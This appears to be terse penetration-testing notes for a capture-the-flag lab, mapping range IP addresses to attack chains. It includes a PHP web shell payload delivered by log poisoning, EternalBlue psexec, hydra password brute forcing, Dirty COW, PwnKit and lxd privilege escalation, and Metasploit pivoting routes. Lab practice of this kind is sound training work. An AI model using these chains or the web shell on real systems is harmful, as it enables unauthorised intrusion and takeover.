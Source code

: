 # penetration_test_guide
CTF Range		
	172.25.20.6	site-editor 1.1.1 → '<?php system($_GET['cmd']); ?>' → path=/var/log/auth.log&cmd
	172.25.30.4	ms17_010_ps
	172.25.30.5	gobuster/dirb cgi_bash
	172.25.20.7	hydra(jason) → ubuntu 18 lxd
Pivoting and Double Pivoting		
	192.168.65.200	hydra(vagrant) → ssh
	192.168.65.210	burpsuite dirtycow
	192.168.5.100	ssh_login(200vagrant) → sessions -u 1 → route add 192.168.5.0/24 1 → portscan → smb_login → smb/psexec
	192.168.35.100	ms17_010_command nbtstat -A 192.168.35.100
	192.168.5.230	portscan → ssh_login(jason) → PwnKit
Active Directory Range		前置smb_login(mulit)
	172.25.170.20	smb_version → smb/ps
	172.25.170.30	nmap445 & hydra → smb/p (nla) → rdesktop
	172.25.170.200	nmap445 & ms17_010_psexec → rdesktop → nbtstat -n
	172.25.170.90	ms17_010_psexec
	172.25.170.70	ms17_010/eternal
OT Range		
	172.25.100.105	nmap(X) → portscan(msfconsole)→ hydra(kevin) → rdesktop
	192.168.110.230	nmap → hydra(kevin) → ssh[sudo -s]
	others : tcpdump tcp port 502 -i eth0 -vv -w /tmp/test.cap	
Binaries & IoT Range Range		
	172.25.120.100	binwalk -e → grep -nir anonymous
	172.25.120.210	 gdb /bin/bash → b main → info registers
	172.25.120.220	
	others : gdb binaries-two → find /bin/bash
